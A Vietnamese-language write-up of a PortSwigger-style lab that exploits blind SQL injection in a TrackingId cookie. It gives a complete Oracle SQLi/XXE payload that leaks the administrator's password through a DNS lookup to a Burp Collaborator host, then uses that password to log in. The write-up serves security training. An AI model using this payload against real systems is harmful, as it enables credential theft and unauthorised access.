




# Write-up: Blind SQL injection with out-of-band data exfiltration

### Tổng quan
Ghi lại quá trình khai thác Blind SQLi bằng kỹ thuật Out-Of-Band để gửi DNS lookup tới Burp Collaborator và lấy mật khẩu của `administrator`

### Mục tiêu
- Khai thác mật khẩu và đăng nhập dưới quyền `administrator`

### Công cụ hỗ trợ
- BurpSuite pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `TrackingId` trong header `Cookie` trong HTTP request được chặn trong BurpSuite
    ```
    TrackingId=vl46jW3NPwS2V2r7'
    ```
    - **Kết quả**: Response không thay đổi hay hiển thị lỗi, xác nhận đây là Blind SQLi
        

2. **Tạo Payload**
- Mở Burp Collaborator client trong Burp Suite, sao chép subdomain `ct9pkrzbal5zf0nyer90x4d3xu3lrbf0.oastify.com`

- Tạo payload kết hợp SQLi và XXE (XML External Entity) để kích hoạt DNS lookup và gửi mật khẩu về subdomain của Burp Collaborator. Payload được gửi bằng Repeater 
    ```
    ' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.ct9pkrzbal5zf0nyer90x4d3xu3lrbf0.oastify.com/"> %remote;]>'),'/l') FROM dual)
    ```
    
- **Kết quả**: nhận được mật khẩu `cjmpp53lzxnc5oaxkplg`
    

3. **Khai thác (Exploitation)**
- Vào phần `/login` và đăng nhập `administrator` : `cjmpp53lzxnc5oaxkplg` và hoàn thành lab
    

### Bài học rút ra
- Thành thạo khai thác blind SQL injection bằng kĩ thuật Out-Of-Band.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.